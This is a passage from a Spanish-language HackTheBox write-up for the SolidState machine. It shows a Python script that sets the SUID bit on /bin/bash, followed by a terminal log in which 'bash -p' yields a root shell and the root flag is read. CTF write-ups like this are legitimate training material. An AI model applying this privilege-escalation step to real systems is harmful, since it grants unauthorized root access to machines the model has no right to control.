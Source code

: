 ```bash
#!/usr/bin/env python
import os
import sys
try:
     os.system('chmod u+s /bin/bash')
except:
     sys.exit()
```

```bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1265272 May 15  2017 /bin/bash
${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ bash -p
bash-4.4# whoami
root
bash-4.4# cd /root
bash-4.4# ls
awk  root.txt
bash-4.4# cat root.txt 
cdf8fd6f52611fa41***************
```

Hemos completado la máquina **SolidState** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/SolidState/pwned.png">
